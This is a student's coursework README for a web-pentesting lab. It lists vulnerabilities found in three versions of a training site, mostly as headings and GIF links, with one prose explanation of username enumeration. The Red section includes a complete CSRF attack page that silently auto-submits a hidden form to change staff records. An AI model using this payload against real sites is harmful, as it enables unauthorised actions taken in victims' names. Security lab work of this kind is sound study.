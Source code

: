 # Project 8 - Pentesting Live Targets

Time spent: **7** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: SQL Injection

Description: 

<img src="http://g.recordit.co/aUAfU46Xqi.gif">


Vulnerability #2: Session Hijacking/Fixation

Description:

<img src="http://g.recordit.co/CXUME0aTWJ.gif">



## Green

Vulnerability #1: Username Enumeration

Description: The bold text that is returned when we use "jmonroe99" as the username and and standard text returned when we use "hacker" as the username tells us as hackers that "jmonroe99" is in the database and "hacker" is not. This is username enumeration vulnerability becuase the system gave information regarding which is a correct and wrong username with the use of bold text. 

<img src="http://g.recordit.co/5wCwKNN9VV.gif">

Vulnerability #2: Cross-Site Scripting

Description:

<img src="http://g.recordit.co/96WgGM2QMX.gif">


## Red

Vulnerability #1: Insecure Direct Object Reference

Description:

<img src="http://g.recordit.co/bB1RVWjluf.gif">

Vulnerability #2: Cross-Site Request Forgery

```
<!doctype html>
<html lang="en">
  <head>
    <title></title>
  </head>
  <body onload="document.ohnoForm.submit()">
  <h1>Some random important content</h1>
  <h2>definitely not a trap.</h2>
    <form name="ohnoForm" action="https://35.184.88.145/red/public/staff/salespeople/show.php?id=3" method="POST" style="display: none;" target="secretIFrame" > <br />
      <input type="hidden" name="csrf_token" value="" /> <br />
      <input type="text" name="first_name" value="Oh" /> <br />
      <input type="text" name="last_name" value="No" /> <br />
      <input type="text" name="phone" value="555-867-5309" /><br />
      <input type="text" name="email" value="bleh@example.org" /><br />
    </form>
    <iframe name="secretIFrame" style="display:none;"></iframe>
  </body>
</html>
```

Description:

<img src="http://g.recordit.co/s81R3gbEvc.gif">


## Notes

Describe any challenges encountered while doing the work

